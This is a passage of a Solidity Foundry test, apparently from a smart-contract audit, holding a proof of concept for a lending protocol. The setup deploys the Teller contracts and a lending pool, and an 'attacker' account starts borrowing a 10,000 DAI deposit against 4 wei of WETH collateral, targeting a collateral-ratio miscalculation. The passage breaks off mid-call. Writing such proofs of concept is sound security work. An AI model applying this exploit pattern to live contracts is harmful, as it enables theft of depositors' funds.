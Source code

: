 ```solidity
        tellerV2.initialize(
            _protocolFee,
            address(marketRegistry),
            address(reputationManager),
            address(smartCommitmentForwarder),
            address(collateralManager),
            address(lenderManager),
            address(escrowVault)
        );

        lender = new LenderCommitmentGroup_Smart(
            address(tellerV2),
            address(smartCommitmentForwarder),
            0x1F98431c8aD98523631AE4a59f267346ea31F984
        );

        address marketOwner = makeAddr("marketOwner");
        vm.prank(marketOwner);
        marketId = marketRegistry.createMarket(
            marketOwner,
            1 days,
            5 days,
            7 days,
            900,
            false,
            false,
            PaymentType.EMI,
            PaymentCycleType.Seconds,
            "uri"
        );

        lender.initialize(
            address(DAI),
            address(WETH),
            marketId,
            5000000,
            0,
            800,
            10000,
            10000,
            3000,
            5
        );
    }

    function test_POC_Wrong_STANDARD_EXPANSION_FACTOR_multiplication() public {
        uint256 principalAmount = 10_000e18;
        deal(address(DAI), attacker, principalAmount);
        vm.startPrank(attacker);

        // add principal to lender to get shares
        DAI.approve(address(lender), principalAmount);
        lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

        // approve the forwarder
        tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

        // borrow the principal
        uint256 collateralAmount = 4;
        deal(address(WETH), attacker, collateralAmount);
        WETH.approve(address(collateralManager), collateralAmount);
        smartCommitmentForwarder.acceptCommitmentWithRecipient(
            address(lender),
```